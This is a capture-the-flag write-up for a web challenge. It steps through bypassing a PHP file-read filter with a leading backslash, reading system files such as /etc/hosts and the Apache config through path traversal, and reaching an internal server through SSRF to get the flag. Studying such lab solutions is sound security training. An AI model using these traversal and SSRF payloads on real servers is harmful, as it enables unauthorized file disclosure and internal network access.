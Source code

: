 ?path=hint.txt

0. Hint
> Let's dive deep again this year.
> Please find the other server in the internal network! (flag is on that server)
>
>    GET http://some-internal-server/flag

I realize the hint is indicating the challenge `d1v1n6 d33p3r` in 2019 pre-exam.

1. try `path=index.php` and get
```php
<?php

    if ($path = @$_GET['path']) {
        if (preg_match('/^(\.|\/)/', $path)) {
            // disallow /path/like/this and ../this
            die('<pre>[forbidden]</pre>');
        }
        $content = @file_get_contents($path, FALSE, NULL, 0, 1000);
        die('<pre>' . ($content ? htmlentities($content) : '[empty]') . '</pre>');
    }

?><!DOCTYPE html>
<head>
    <title>🦈🦈🦈</title>
    <meta charset="utf-8">
</head>
<body>
    <h1>🦈🦈🦈</h1>
    <a href="?path=hint.txt">Shark never cries?</a>
</body>
```

2. start with a `\` can bypass the rule

3. try `path=\../../../../../proc/self/cmdline`
```shell
apache2-DFOREGROUND
```

4. try `path=\../../../../../etc/apache2/apache2.conf`
```shell
# This is the main Apache server configuration file.  It contains the
# configuration directives that give the server its instructions.
# See http://httpd.apache.org/docs/2.4/ for detailed information about
# the directives and /usr/share/doc/apache2/README.Debian about Debian specific
# hints.
#
#
# Summary of how the Apache 2 configuration works in Debian:
# The Apache 2 web server configuration in Debian is quite different to
# upstream's suggested way to configure the web server. This is because Debian's
# default Apache2 installation attempts to make adding and removing modules,
# virtual hosts, and extra configuration directives as flexible as possible, in
# order to make automating the changes and administering the server as easy as
# possible.

# It is split into several files forming the configuration hierarchy outlined
# below, all located in the /etc/apache2/ directory:
#
#	/etc/apache2/
#	|-- apache2.conf
#	|	`--  ports.conf
#	|-- mods-enabled
#	|	|-- *.load
#	|	`-- *.conf
```

5. try `path=\../../../../../../etc/resolv.conf`
```shell
nameserver 127.0.0.11
options ndots:0
```

6. try `path=\../../../../../..//etc/hosts`
```shell
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.22.0.3	0c1879a62a4d
```

7. try `path=http://172.22.0.3/`
the default page

8. try `path=http://172.22.0.2/`
```
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```

9. try `path=http://172.22.0.2/flag`
```
AIS3{5h4rk5_d0n'7_5w1m_b4ckw4rd5}
```

### Ref
- https://hackerone.com/reports/415682
- https://cyku.tw/ais3-2019-pre-exam-web-write-up/
